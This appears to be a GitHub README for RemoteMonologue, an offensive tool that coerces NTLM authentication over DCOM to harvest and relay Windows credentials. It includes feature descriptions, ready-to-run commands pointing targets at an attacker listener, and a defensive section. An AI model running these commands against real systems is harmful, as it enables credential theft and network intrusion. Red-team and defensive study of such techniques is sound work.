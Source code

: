 # RemoteMonologue

RemoteMonologue is a Windows credential harvesting technique that enables remote user compromise by leveraging the Interactive User RunAs key and coercing NTLM authentications via DCOM. 

Read [RemoteMonologue: Weaponizing DCOM for NTLM  Authentication Coercions] for detailed information.

## **Features**  

🔹 **Authentication Coercion via DCOM (`-dcom`)**  
- Targets three DCOM objects (`ServerDataCollectorSet`, `FileSystemImage`, `UpdateSession`) to trigger an NTLM authentication against a specified listener (`-auth-to`).  

🔹 **Credential Spraying (`-spray`)**  
- Validate credentials across multiple systems while also capturing user credentials.  

🔹 **NetNTLMv1 Downgrade Attack (`-downgrade`)**  
- Force targets to use NTLMv1, making credential cracking and relaying easier.  

🔹 **WebClient Service Abuse (`-webclient`)**  
- Enables the WebClient service to facilitate HTTP-based authentication coercion.  

🔹 **User Enumeration (`-query`)**  
- Identify users with an active session on the target system.  

**Note:** Local administrator privileges to the target system is required.  

## **Setup**

```bash
pip install impacket
```

## **Examples**

Below is an example of running RemoteMonologue with the NetNTLMv1 downgrade attack while using `Responder` as the listener. By default, if no DCOM option is specified, the tool uses the `ServerDataCollectorSet` DCOM object.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener IP] -downgrade
```

![image](https://github.com/user-attachments/assets/ada8f741-754f-4c50-9743-a6d9145f7407)


Below is another example, this time the attack is executed using the `FileSystemImage` DCOM object and enabling the WebClient service to obtain an HTTP authentication, which is then relayed to LDAP using `ntlmrelayx`.

```bash
RemoteMonologue.py domain/user:password@target -auth-to [listener NETBIOS@PORT] -webclient -dcom FileSystemImage
```

![image](https://github.com/user-attachments/assets/f79d879a-ac4b-4436-a453-359d6e2eba72)


## **Defensive Considerations**

To protect against and detect these techniques, there are several preventative and detection measures that can be implemented.

Preventative measures:

1.	Enable LDAP Signing and Channel Binding: Configure LDAP signing enforcement and channel binding on domain controllers to protect the LDAP endpoint from relay attacks. Note: These settings will be enforced by default starting with Windows Server 2025.

2.	Upgrade to the Latest Windows Versions: Upgrade servers to Windows Server 2025 and workstations to Windows 11 version 24H2 to mitigate NetNTLM downgrade attacks, as NTLMv1 has been removed in these versions.

3.	Enforce SMB Signing: Enable and enforce SMB signing on Windows servers to prevent SMB relay attacks.

4.	Implement Strong Password Policies: Enforce strong password requirements to make password cracking attacks more challenging.

Detection opportunities:

1.	Monitor Remote Access to DCOM Objects: Track access to the affected DCOM objects and their specific Properties and Methods to identify unusual activity.

2.	Monitor Registry Modifications: Monitor changes to the RunAs and LmCompatibilityLevel registry keys.

3.	Track WebClient Service Activity: Monitor for instances where the WebClient service is enabled remotely, as this is used to facilitate HTTP-based NTLM authentications.



[RemoteMonologue: Weaponizing DCOM for NTLM  Authentication Coercions]: https://www.ibm.com
